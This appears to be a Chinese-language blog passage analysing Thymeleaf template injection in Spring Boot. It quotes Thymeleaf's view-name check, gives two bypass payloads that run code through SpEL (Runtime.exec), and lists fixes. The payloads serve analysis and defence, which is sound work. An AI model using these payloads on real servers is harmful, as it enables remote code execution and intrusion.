

注释是这样说的：

>  A check must be made that the template name is not included in the URL, so that we make sure no code to be executed comes from direct user input.

```java
    public static void checkViewNameNotInRequest(final String viewName, final HttpServletRequest request) {

        final String vn = StringUtils.pack(viewName);

        final String requestURI = StringUtils.pack(UriEscape.unescapeUriPath(request.getRequestURI()));

        boolean found = (requestURI != null && requestURI.contains(vn));
        if (!found) {
            final Enumeration<String> paramNames = request.getParameterNames();
            String[] paramValues;
            String paramValue;
            while (!found && paramNames.hasMoreElements()) {
                paramValues = request.getParameterValues(paramNames.nextElement());
                for (int i = 0; !found && i < paramValues.length; i++) {
                    paramValue = StringUtils.pack(UriEscape.unescapeUriQueryParam(paramValues[i]));
                    if (paramValue.contains(vn)) {
                        found = true;
                    }
                }
            }
        }

        if (found) {
            throw new TemplateProcessingException(
                    "View name is an executable expression, and it is present in a literal manner in " +
                    "request path or parameters, which is forbidden for security reasons.");
        }

    }
```

他会检查两个部分，一个是请求的路径，一个是请求的参数，这两个中单反有一个和传到这里的模板名称是一样的，就直接寄，这也就是为什么之前的写法无法利用：

```java
    @GetMapping("/path")
    public String path(@RequestParam String lang) {
        return lang;//template path is tainted
    }
```

之所以还会检查路径，是因为如果controller无返回值，则以GetMapping的路由为视图名称。


所以对于如果return的结果和path一样的时候，如果传参是在path上，两种bypass方式：

```
;/__${T%20(java.lang.runtime).getruntime().exec("calc")}__::.x
//__${T%20(java.lang.runtime).getruntime().exec("calc")}__::.x
```

第二个很容易懂了，第一个是因为SpringBoot的矩阵变量功能，默认会将路径中的分号移除。


## 修复方案

摘录自seebug


### 1. 设置ResponseBody注解

如果设置`ResponseBody`，则不再调用模板解析

### 2. 设置redirect重定向

```
@GetMapping("/safe/redirect")
public String redirect(@RequestParam String url) {
    return "redirect:" + url; //CWE-601, as we can control the hostname in redirect
```

根据spring boot定义，如果名称以`redirect:`开头，则不再调用`ThymeleafView`解析，调用`RedirectView`去解析`controller`的返回值

### 3. response

```
@GetMapping("/safe/doc/{document}")
public void getDocument(@PathVariable String document, HttpServletResponse response) {
    log.info("Retrieving " + document); //FP
}
```

由于controller的参数被设置为HttpServletResponse，Spring认为它已经处理了HTTP Response，因此不会发生视图名称解析